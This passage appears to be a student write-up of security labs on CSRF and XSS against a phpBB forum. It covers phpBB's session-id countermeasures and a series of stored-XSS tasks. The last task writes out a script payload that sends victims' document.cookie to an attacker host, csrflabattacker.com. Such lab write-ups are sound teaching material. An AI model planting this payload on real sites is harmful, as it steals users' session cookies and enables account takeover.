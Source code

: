 Note that, we cannot alter the password using this method because current password needs to be provided to change password, which we apparently don't know. Also, if we want to change a particular user's information like signature, we need the **username** and corresponding **email** and **user_id**. Fortunately, all these informations are public, so such attack can be achieved.


### Task 3: Understanding phpBB's Countermeasures

Repeat attack in **Task 1** and **Task 2** to www.OriginalphpBB.com, we find that both of them no longer work. In the GET request forgery attack, the server simply doesn't accept GET request for creating a new post. And in the POST request forgery attack, server will examine the **sid**, which others wouldn't know since the protection of SOP. Without knowing **sid**, none of the attacks will work.

The attacker may get other's **sid** in following cases:

- There is a XSS vulnerability so that attacker can access victim's cookies.
- The attacker may have read access of the database and read victim's **sid** from database.
- By some way, the SOP was passed.

As a conclusion, in general, under the protection of SOP and assuming that no other vulnerabilities exist, the countermeasure cannot easily get bypassed.


## XSS Lab

### Task 1: Posting a Malicious Message to Display Cookies

We login as Bob, then we create a post with title _**See here**_ and content as follows:
```JavaScript
Nothing here
<script>alert('XSS');</script>
```

Since the content of the malicious post is stored in database, whenever someone view the post, he will see the post along with an alert box:
![XSS alert][alert]

### Task 2: Posting a Malicious Message to Display Cookies

In this task, we simply repeat what we did in task 1 except that this time we write following post content:
```JavaScript
Nothing here
<script>alert(document.cookie);</script>
```

Then one who view this post will see an alert with his own cookies:
![Cookies alert][cookies]

### Task 3: Stealing Cookies from the Victim’s Machine

To steal the cookies, we first again create a malicious post with JavaScript inserted. This time, we insert the following JavaScript:
```HTML
<script>
document.write('<img src=http://www.csrflabattacker.com/receiver.php?c='+escape(document.cookie)+'>');
</script>
```
A user who view this post will automatically send an request to www.CSRFLabAttacker.com (the one we use in CSRF Lab) with his cookies attached.
